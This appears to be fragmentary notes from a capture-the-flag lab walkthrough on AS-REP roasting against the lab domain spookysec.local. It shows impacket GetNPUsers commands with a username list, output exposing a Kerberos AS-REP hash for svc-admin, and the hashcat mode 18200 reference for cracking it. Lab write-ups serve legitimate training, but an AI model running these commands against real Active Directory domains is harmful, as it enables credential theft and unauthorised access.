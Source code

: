 python3  GetNPUsers.py -usersfile /home/kali/Downloads/kerberos/userK.txt -no-pass CONTROLLER.local/




james
svc-admin
James
robin
darkstar
administrator
backup
paradox
JAMES
Robin
Administrator


GetNPUsers.py -dc-ip <Target_IP> <Target_Domain>/ -no-pass -usersfile <the_selected_users_list>



impacket-GetNPUsers -usersfile uservalid.txt -no-pass spookysec.local/ 





[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:7e3de9d9e0eae03c5a0e7781393b3e77$f68e8a387a4ae3ffabf3c109337db46c7a7e33451ca566aef7498b47b984d21c8dfe106f397197a17a2dc1ae9a2ba3699c1f864d7a16213e145419bb3f7a50d6306b5563b579f540432f8755dfb99c1754d1c1a1c7c534635002018771c57f06a9b08d189a18e0ab75100c425046243cbe6ec215b643bcf92c95aeaf0a79a7a3e3e29bf577699561f499897452e5f3125db082027a4d7af563f986e68dc4e86d60463cb6982522c88c1e8c1b5aec6c6e3466f0abd711a2df889e1e4babd7c65397ab3ecf3be4a554bf12454098f675127babc7f0b5a21ecca253479a4640ff5394390bfd8177646da8e8c720c14b724e2973
[-] User James doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User JAMES doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set








https://hashcat.net/wiki/doku.php?id=example_hashes



18200	Kerberos 5, etype 23, AS-REP	$krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
